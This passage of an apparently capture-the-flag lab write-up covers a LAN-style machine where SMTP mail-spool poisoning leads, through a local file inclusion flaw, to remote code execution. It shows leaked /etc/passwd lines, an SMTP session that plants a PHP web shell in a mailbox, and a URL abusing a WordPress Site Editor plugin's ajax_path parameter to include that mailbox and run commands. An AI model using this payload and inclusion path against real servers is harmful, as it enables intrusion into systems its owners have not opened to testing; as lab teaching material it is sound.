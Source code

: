 ```
postfix:x:107:114::/var/spool/postfix:/usr/sbin/nologin
leonard:x:1001:1001:,,,:/home/leonard:/bin/bash
```

## SMTP Log Poisoning through LFI to Remote Code Execution

- Send email from `leonard` to `sabine`
- I typed

```
HELO alien
VRFY leonard
mail from: leonard
rcpt to: sabine
data
Subject: EXPLOIT
<?php echo system($_REQUEST['cmd']); ?>
.
quit
```

![image]( /assets/img/diophante/5.PNG)


Now using the `/var/mail/sabine` i will try the RCE
The path is :
```sh
view-source:http://hard/blog/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/sabine&cmd=id
```
